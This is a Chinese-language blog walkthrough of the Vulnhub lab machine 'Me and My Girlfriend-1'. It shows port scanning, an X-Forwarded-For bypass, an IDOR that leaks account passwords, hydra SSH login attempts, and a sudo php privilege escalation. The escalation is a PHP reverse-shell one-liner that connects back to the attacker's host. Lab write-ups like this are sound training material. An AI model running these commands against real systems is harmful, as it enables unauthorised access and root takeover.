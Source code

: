 ```yaml
---
layout: post
title: "Me and My Girlfriend-1 walkthrough"
date: 2021-11-03
author: 2hanx
toc: true
categories: [Vulnhub]
tags: []
---
```


### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机                 | IP                |
| ---------------------- | ----------------- |
| 本机（Win10）          | `192.168.174.1`   |
| Kali                   | `192.168.174.128` |
| Me-and-My-Girlfriend-1 | `192.168.174.148` |

### 扫描端口和版本信息

`nmap -A -p- 192.168.174.148`

```shell
┌──(root💀kali)-[~]
└─# nmap -p- -A 192.168.174.148
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-03 07:29 EDT
Nmap scan report for 192.168.174.148
Host is up (0.0012s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 57:e1:56:58:46:04:33:56:3d:c3:4b:a7:93:ee:23:16 (DSA)
|   2048 3b:26:4d:e4:a0:3b:f8:75:d9:6e:15:55:82:8c:71:97 (RSA)
|   256 8f:48:97:9b:55:11:5b:f1:6c:1d:b3:4a:bc:36:bd:b0 (ECDSA)
|_  256 d0:c3:02:a1:c4:c2:a8:ac:3b:84:ae:8f:e5:79:66:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

扫描结果内容较少，访问web页面后根据给的提示信息添加 `x-forwarded-for: 127.0.0.1` 即可。

```shell
┌──(root💀kali)-[~]
└─# curl  http://192.168.174.148/
Who are you? Hacker? Sorry This Site Can Only Be Accessed local!<!-- Maybe you can search how to use x-forwarded-for --> 
```

修改请求头访问后在页面中存在登录和注册框，随意注册个账户登录后在查看用户信息处存在越权漏洞，修改 `user_id `的参数值就可以查看其他的账户信息，其中包括密码。

![1]({{ '/me-and-my-girlfriend-1/1.png' | prepend: site.url }})

至此通过枚举，得到了五个账户信息。

```txt
eweuhtandingan:skuyatuh
aingmaung:qwerty!!!
sundatea:indONEsia
sedihaingmah:cedihhihihi
alice:4lic3
```

将上述信息保存为`user_pass.txt`文件，并通过 `hydra` 工具进行 ssh 登录测试，发现 `alice` 账户可以 ssh 登录。

```shell
┌──(root💀kali)-[~]
└─# hydra -C user_pass.txt ssh://192.168.174.148
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-03 07:57:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 5 tasks per 1 server, overall 5 tasks, 5 login tries, ~1 try per task
[DATA] attacking ssh://192.168.174.148:22/
[22][ssh] host: 192.168.174.148   login: alice   password: 4lic3
1 of 1 target successfully completed, 1 valid password found
```

### Getshell

在 `/home/alice/.my_secret/flag1.txt` 文件中得到第一个 flag。

```shell
alice@gfriEND:~/.my_secret$ cat flag1.txt
Greattttt my brother! You saw the Alice's note! Now you save the record information to give to bob! I know if it's given to him then Bob will be hurt but this is better than Bob cheated!

Now your last job is get access to the root and read the flag ^_^

Flag 1 : gfriEND{2f5f21b2af1b8c3e227bcf35544f8f09}
```

查看该账户的 suid 权限时发现可执行具备 suid 权限的 `/usr/bin/php` 程序，后续操作就简单了，直接就是 `php` 提权。

```shell
alice@gfriEND:/home$ sudo -l
Matching Defaults entries for alice on gfriEND:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on gfriEND:
    (root) NOPASSWD: /usr/bin/php
```

### 提权

执行命令：`sudo /usr/bin/php -r '$sock=fsockopen("192.168.174.128",5566);exec("/bin/sh -i <&3 >&3 2>&3");'` 进行反弹shell，kali 监听 **5566** 端口就可拿到 root 账户的 shell，即可得到最后一个 flag。

```shell
# cat flag2.txt

  ________        __    ___________.__             ___________.__                ._.
 /  _____/  _____/  |_  \__    ___/|  |__   ____   \_   _____/|  | _____     ____| |
/   \  ___ /  _ \   __\   |    |   |  |  \_/ __ \   |    __)  |  | \__  \   / ___\ |
\    \_\  (  <_> )  |     |    |   |   Y  \  ___/   |     \   |  |__/ __ \_/ /_/  >|
 \______  /\____/|__|     |____|   |___|  /\___  >  \___  /   |____(____  /\___  /__
        \/                              \/     \/       \/              \//_____/ \/

Yeaaahhhh!! You have successfully hacked this company server! I hope you who have just learned can get new knowledge from here :) I really hope you guys give me feedback for this challenge whether you like it or not because it can be a reference for me to be even better! I hope this can continue :)

Contact me if you want to contribute / give me feedback / share your writeup!
Twitter: @makegreatagain_
Instagram: @aldodimas73

Thanks! Flag 2: gfriEND{56fbeef560930e77ff984b644fde66e7}
```

### 总结

靶机难度简单，值得总结的地方就只有 `hydra` 爆破命令：`hydra -C user_pass.txt ssh://192.168.174.148`。

